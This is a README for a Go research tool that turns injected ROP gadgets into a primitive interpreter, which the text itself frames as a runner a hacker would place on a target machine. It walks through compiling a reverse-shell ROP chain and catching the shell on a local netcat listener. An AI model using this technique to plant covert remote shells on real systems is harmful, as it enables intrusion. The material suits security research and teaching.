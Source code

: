# ROP interpreter

This directory contains tools that demonstrate implementing a very primitive
interpreter using ROP gadgets in Go. @SeungKang helped a ton with this crazy
idea - thank you :)

## How it works

Users first must define a list of ROP gadgets using a tool like `nasm` and
compile the assembly to binary. The ROP gadgets are then injected into the
`runner` program using the `injector` program. The `runner` will act as an
interpreter, reading a user-defined "unresolved ROP chain" at runtime.

In the real world, the `runner` would be executed on the target computer.
A hacker would pass various unresolved ROP chain payloads through an
authenticated network channel to the runner. Here, the `runner` reads
the chain from the filesystem.

Users define a ROP chain in a human-readable format using a ROP chain source
file. This source file is compiled into a binary blob using the `compiler`
program. The resulting blob consists of the ROP gadgets' offsets that the
interpreter must resolve at runtime.

For example, the following source file produces an "unresolved ROP chain"
that executes the `socket` system call:

```
; socket syscall
g: pop rdi; ret
d: 0x02
g: pop rsi; ret
d: 0x01
g: pop rdx; ret
d: 0x06
g: pop rax; ret
d: 0x29
g: syscall; ret
```

## Tooling

- `runner` - Executes an unresolved ROP chain produced by `compiler`
- `injector` - Injects binary ROP gadgets into `runner`
- `compiler` - Translates a human-readable ROP chain source file into
  a binary, "unresolved ROP chain"

## Example

- Requirements:
  - Debian (x86 64-bit CPU)
  - Go
  - nasm
  - netcat (nc)

In this example, we will compile a ROP chain that uses the ROP gadgets
provided by the `runner` program to execute a reverse shell. The reverse
shell will connect to 127.0.0.1 port 31337.

#### 1. Compile the ROP gadgets

```console
$ mkdir build
$ nasm -f bin -o build/rop-gadgets.bin examples/rop-gadgets.asm
```

Note: ROP gadgets can be examined with objdump like so:

```console
$ objdump -D -M intel,x86-64 -b binary -m i386 build/rop-gadgets.bin
(...)
0000000000000000 <.data>:
   0:	c3                   	ret    
   1:	48 89 e7             	mov    rdi,rsp
   4:	41 5a                	pop    r10
   6:	c3                   	ret
(...)
```

#### 2. Build the runner and inject ROP gadgets

```console
$ go build -o build/runner-orig runner/main.go 
$ go run injector/main.go -t elf -f build/runner-orig -n main.RopRegion -i build/rop-gadgets.bin > build/runner-injected
$ chmod +x build/runner-injected
```

#### 3. Compile the ROP chain

```console
$ go run compiler/main.go -gadgets build/rop-gadgets.bin -src examples/reverse-shell-chain.txt > build/reverse-shell-chain.bin
```

#### 4. Start netcat listener

```console
$ nc -v -l -p 31337
listening on [any] 31337 ...
```

#### 5. Run the ROP chain

```console
$ ./build/runner-injected -fork build/reverse-shell-chain.bin
$ 2024/08/25 10:55:09 pc: 0x4a89d7 | pc line: 81 | main: 0x4a87c0 | uncalled: 0x4a8fc0
0xc000093578: 0x4142434445464748
0xc000093580: 0x4a89d7
0xc000093588: 0x51
0xc000093590: 0x18
0xc000093598: 0x4a8fc0
0xc0000935a0: 0xc0000935a0
0xc0000935a8: 0xc0000935a0
(...)
```

#### 6. Check if netcat received a connection

```
connect to [127.0.0.1] from localhost [127.0.0.1] 33130
whoami
user0
```
